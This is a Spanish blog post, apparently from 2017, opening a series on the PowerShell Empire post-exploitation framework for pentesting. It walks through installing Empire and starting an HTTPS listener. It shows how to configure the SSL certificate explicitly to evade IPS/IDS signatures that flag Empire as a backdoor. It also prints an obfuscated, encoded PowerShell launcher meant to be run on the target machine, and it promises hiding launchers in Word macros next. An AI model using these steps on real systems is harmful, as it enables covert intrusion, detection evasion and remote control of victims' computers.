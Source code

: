 ```yaml
---
layout: post
title: 'Empire F#ckery  — Pt. 01: Pentesting con Powershell y evasión de IPS'
date: '2017-08-05 13:28:26'
tags:
- powershell
- evasion
- framework
---
```


> Empire es una plataforma en Powershell de post-explotación construida con comunicaciones criptológicamente seguras y una architectura flexible
— [PowershellEmpire.com](https://www.powershellempire.com/)

Powershell es una excelente herramienta de ayuda en los sistemas windows que puede ser abusada por atacantes para cometer explotacion, post explotacion, recon e incluso BypassUAC, y es así como nace Empire.

![empire_logo_black4](/images/screenshots/empire_logo_black4.png)

Empire es una plataforma de post-explotación que nos asistirá a la hora de ingresar en un sistema y buscar elevar nuestra presencia ya sea en la maquina host como movimientos laterales sobre la red.

## Instalación de Empire

Afortunadamente Empire viene con un script de instalación muy práctico que hará el trabajo por nosotros. Para toda la instalación y las posteriores pruebas se usó: **Ubuntu 17.04 x64**.

Es tan simple como:
```
root@Attacker:~# git clone https://github.com/EmpireProject/Empire.git
root@Attacker:~# cd Empire/
root@Attacker:~/Empire# ./setup/install.sh
```

**Demo:**
# <script type="text/javascript" src="https://asciinema.org/a/HXBLiXYSFXUA7tNPxV4pVzsvc.js" id="asciicast-HXBLiXYSFXUA7tNPxV4pVzsvc" async></script>

Debemos poner atención a una de las últimas lineas. La linea `[*] Certificate written to ../data/empire.pem` nos dice donde guardará el certificado SSL para conexiónes seguras.

## El primer *"Listener"*

Un listener es un proceso que correrá en segundo plano, encargado de *escuchar* las conexiónes entrantes para determinar la conexión de un agente y diferenciarla de una conexión regular.

Para iniciar un listener debemos:
* Ejecutar Empire
* Ir a *listeners*
* Usar el modulo `userlistener http` el cual se encargara de escuchar con conexiones *https*
* Usualmente las opciones por defecto están bien en este caso, para verlas puedes ejecutar `info`. Para cambiar una configuración ejecutamos `set <opcion> <valor>`
* Escribimos `execute` para ejecutar el proceso

```
root@Attacker:~/Empire# ./empire
-- SNIP -- 
(Empire) > listeners
(Empire: listeners) > uselistener http
(Empire: listeners/http) > info
(Empire: listeners/http) > set Name test
```

Ahora hay algo extremadamente importante antes de ejecutar el proceso, y es **añadir el certificado SSL** ya que sino hacemos esto podríamos ser detectados por un IDS/IPS o cualquier inspector de paquetes.

Por ejemplo, Fortinet agrego en Junio 01, 2017 una firma para detectar a Empire calificandolo como un backdoor.

![Intrusion Prevention: Backdoor.Empire](/images/screenshots/Capture-ips.PNG)

Si nosotros creamos un listener y nuestro agente se conecta a él, transmitirá la información en texto claro y el IPS/IDS levantará una alerta y bloqueará la conexión.

Para nosotros evadir este IPS debemos de configurar el certificado SSL que ya se creó en la instalación y añadirlo a la variable CertPath:

```
(Empire: listeners/http) > set CertPath data/
(Empire: listeners/http) > set Host https://<direccion_IP>:443
(Empire: listeners/http) > execute
[*] Starting listener 'test'
[+] Listener successfully started!
```

Y al final obtenemos nuestro codigo de inyección de powershell ejecutando `launcher powershell`:

```
(Empire: listeners/http) > launcher powershell
powershell -noP -sta -w 1 -enc
WwBSAEUARgBdAC4AQQBTAFMARQBNAGIATAB5AC4ARwBlAHQAVAB5AHAAZQAoACcAUwB5AHMAdABlAG0ALgBNAGEAbgBhAGcAZQBtAGUAbgB0AC4AQQB1AHQAbwBtAGEAdABpAG8AbgAuAEEAbQBzAGkAVQB0AGkAbABzACcAKQB8AD8AewAkAF8AfQB8ACUAewAkAF8ALgBHAGUAdABGAGkARQBMAEQAKAAnAGEAbQBzAGkASQBuAGkAdABGAGEAaQBsAGUAZAAnACwAJwBOAG8AbgBQAHUAYgBsAGkAYwAsAFMAdABhAHQAaQBjACcAKQAuAFMAZQBUAFYAQQBsAFUARQAoACQAbgB1AGwAbAAsACQAdA
--- SNIP ---
```

Esas lineas de código son las que debemos ejecutar en la máquina objectivo.

**Demo:**
# <script type="text/javascript" src="https://asciinema.org/a/5gkZHvi3baERqQJab26kTwYvX.js" id="asciicast-5gkZHvi3baERqQJab26kTwYvX" async></script>

En esta entrada cubrimos lo basico de configurar un listener y como conectar un agente a él, en la próxima entrada veremos los comandos esenciales de un agente, como hacer un launcher y ocultarlo en un archivo macro (en word por ejemplo) y otras cosas más.

